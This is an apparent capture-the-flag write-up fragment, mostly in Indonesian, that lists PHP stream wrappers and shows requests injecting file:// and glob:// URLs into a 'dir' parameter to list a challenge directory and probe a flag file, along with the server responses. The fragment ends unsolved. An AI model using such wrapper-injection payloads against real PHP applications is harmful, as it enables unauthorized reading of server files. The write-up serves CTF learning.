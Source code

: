 `Table of Contents`

- file:// — Accessing local filesystem
- http:// — Accessing HTTP(s) URLs
- ftp:// — Accessing FTP(s) URLs
- php:// — Accessing various I/O streams
- zlib:// — Compression Streams
- data:// — Data (RFC 2397)
- glob:// — Find pathnames matching pattern
- phar:// — PHP Archive
- ssh2:// — Secure Shell 2
- rar:// — RAR
- ogg:// — Audio streams
- expect:// — Process Interaction Streams

kita bakal memanfaatkan protokol tersebut yaitu 

- file:// — Accessing local filesystem

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/
```
`response`
```
764
4096
4096
39
```

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag
```
`response`
```
This page isn’t working ctf.iluv.my.id is currently unable to handle this request.
HTTP ERROR 500
```

- glob:// — Find pathnames matching pattern

`requests`
```
http://ctf.iluv.my.id:9999/?dir=glob://tmp/chall/
```
`response`
```
764
4096
4096
39
```

`requests`
```
http://ctf.iluv.my.id:9999/?dir=file:///tmp/chall/flag
```
`response`
```
Blank Pages no error
```
